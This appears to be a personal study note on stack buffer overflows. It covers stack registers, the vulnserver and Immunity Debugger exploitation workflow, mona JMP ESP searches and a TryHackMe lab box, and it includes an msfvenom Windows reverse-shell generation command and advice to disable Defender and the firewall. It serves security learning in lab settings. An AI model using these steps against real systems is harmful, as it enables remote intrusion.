 ```yaml
---
title: Buffer over flow
author: Yuchao
date: 2022-03-27 11:33:00 +0800
categories: [sec]
tags: [bof, assembly, thm]
math: true
mermaid: true
---
```


# Learn from Video

#### understand stack MOST IMPORTANT !!!

What happens when you call a procedure?
- https://www.youtube.com/watch?v=RU5vUIl1vRs

Assembly Programming Assembly Function Stack Frame Explained
- https://www.youtube.com/watch?v=vcfQVwtoyHY

---

```
{low}
ESP points to the top of the stack, at lower memory location.
{buffer}
EBP points to higher memory address, at the bottom of the stack, 
EIP holds the address of next instruction to be executed.
{high}
```

```
(one function on stack)
lower address

at ESP value (Extended Stack Pointer)
this Buffer Space
at EBP value (Extended Base Pointer)
at EIP value (Extended Instruction Pointer) / Return Address
shellcode start point

higher address
```

The process:
1. ESP hit command to get input, and the input change the stack value. EBP right, know next is EIP, EIP right. Value in stack wrong.
2. when ESP hit where EBP saves(on stack), the EBP value will change(or not). EBP wrong, EIP right.
3. when ESP hit where EIP saves(on stack), the EIP value will change.(to an address with value "JMP ESP")
4. then ESP value increase. (so its meaningfull when we jump back, to the payloads.)
5. EIP do JMP ESP (JMP back to where the ESP is now pointing.)
6. EIP do the payload commands line by line.

```

(one program in memory)
(EIP start from TEXT, when meet a function, point to STACK return address))

lower address
TEXT
DATA
HEAP
STACK
higher address
```

RET instruction:
- This will take a dword from the top of the stack at esp and load it to eip,  
- while also adding 4 to esp's value (to move it up to the next entry)

---

Another way(not JMP ESP):
- PUSH ESP, RET
- https://www.rcesecurity.com/2011/12/buffer-overflow-exploitation-jump-to-shellcode-via-push-espret/

---


Cyber Mentor BOF video and his recommendation
- https://www.youtube.com/watch?v=ncBblM920jw
- https://github.com/johnjhacking/Buffer-Overflow-Guide
- https://tcm-sec.com/buffer-overflows-made-easy/

---

Practice by vulnserver and Immunity Debugger

vulnserver
- https://thegreycorner.com/vulnserver.html
if Windows block the download, turn off Windows Defender.

Immunity Debugger
- https://www.immunityinc.com/products/debugger/

---

Cyber Mentor BOF process:
1. Spiking
2. Fuzzing
3. Finding the Offset
4. Overwriting the EIP
5. Finding Bad Characters
6. Finding the Right Module
7. Generating Shellcode
8. Root

```
nc -nv 192.168.1.90 9999
connect to vuln server
command, STATS [stat_value]
```

### 1. Spiking

generic_send_tcp
``` apt-get install spike ```
- ./generic_send_tcp host port spike_script SKIPVAR SKIPSTR
- ./generic_send_tcp 192.168.1.100 701 something.spk 0 0

### 2. Fuzzing
Send different characters try to break the program to find the offset

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337
```

### 3. Finding the Offset
find EIP at 2003

### 4. Overwriting the EIP

- EIP is 4 bytes. (32-bits)
- Shellcode = "A" * 2003 + "B" * 4
- check if B start at EIP.
- HEX 41: A.   HEX 42: B.
- EIP = "42424242" will be successful.

### 5. Finding Bad Characters

- google: "badchars"
- !mona bytearray -cpb "\x00"

### 6. Finding the Right Module


##### Find DLL without memory protection.
- search mona.py, save to /Immunity Debugger/ PyCommands.

##### Get JMP ESP shell code
``` bash
# locate nasm_shell
# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
──(root💀kali)-[/home/kali]
└─# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
Calling `DidYouMean::SPELL_CHECKERS.merge!(error_name => spell_checker)' has been deprecated. Please call `DidYouMean.correct_error(error_name, spell_checker)' instead.
nasm > JMP ESP
00000000  FFE4              jmp esp
```

##### in mona, search JMP ESP location
```
!mona modules
!mona find -s \xff\xe4" -m essfunc.dll
```
anotherway: !mona jmp -r ESP -m "essfunc.dll"
this module has no memory protections

### 7. Generating Shellcode

msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT={Port} EXITFUNC=thread -f c -a x86 -b "\00"

in python3:
put 'b' before shell code, means byte encode.

---

# THM Brain storm box

```
nmap -T4 -p- -Pn 10.10.131.179
get: 21, 3389, 9999

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

ftp 10.10.131.179
name: anonymous

ftp> ls
chatserver.exe
essfun.dll

ftp> prompt OFF
ftp> binary
for safe transfer, byte may crash

ftp> mget *

ftp> bye
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

in Windows
defender off
firewall off

\r = CR (Carriage Return) → Used as a new line character in Mac OS before X
\n = LF (Line Feed) → Used as a new line character in Unix/Mac OS X
\r\n = CR + LF → Used as a new line character in Windows


```

# THM practice
- https://tryhackme.com/room/bufferoverflowprep
- https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst
- https://github.com/andyfeili/OSCP_BufferOverflow_Cheatsheet

